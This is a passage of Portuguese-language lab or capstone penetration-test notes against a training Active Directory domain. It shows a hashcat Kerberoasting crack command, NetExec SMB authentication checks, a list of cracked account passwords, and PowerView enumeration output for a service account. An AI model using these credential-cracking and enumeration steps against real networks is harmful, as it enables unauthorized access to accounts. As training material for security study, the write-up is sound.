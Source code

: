 `hashcat -m 13100 kerberos.txt --wordlist /home/arthur-strelow/capstone/generated_passwords.txt2`

![](img/dd73ff990f2120dbcceb405fb46b8dc8.png)

Executei o `Netexec` para identificar quais usuários conseguem se autenticar no serviço SMB.
![](img/2e80742e6bbf47839d36091204e99a92.png)

> [!Credenciais obtidas até o momento]
> svcScanning:Password1!
> laura.wood:Password1@
> mohammad.ahmed:Password1!

# 9. `BloodHound`
```
PS C:\Users\mohammad.ahmed> Get-DomainUser -Identity svcScanning
logoncount            : 1
badpasswordtime       : 5/22/2024 3:23:24 PM
distinguishedname     : CN=svcScanning,OU=Services,DC=corp,DC=thereserve,DC=loc
objectclass           : {top, person, organizationalPerson, user}
displayname           : svcScanning
lastlogontimestamp    : 5/22/2024 9:19:59 AM
userprincipalname     : svcScanning@corp.thereserve.loc
name                  : svcScanning
objectsid             : S-1-5-21-170228521-1485475711-3199862024-1986
samaccountname        : svcScanning
codepage              : 0
samaccounttype        : USER_OBJECT
accountexpires        : NEVER
countrycode           : 0
whenchanged           : 5/22/2024 9:19:59 AM
instancetype          : 4
usncreated            : 341680
objectguid            : baaf37c3-6507-4314-9ef9-a7012be29c74
lastlogoff            : 1/1/1601 12:00:00 AM
objectcategory        : CN=Person,CN=Schema,CN=Configuration,DC=thereserve,DC=loc
dscorepropagationdata : {3/20/2023 5:01:14 PM, 2/15/2023 9:07:06 AM, 1/1/1601 12:00:01 AM}
serviceprincipalname  : cifs/scvScanning
givenname             : svcScanning
```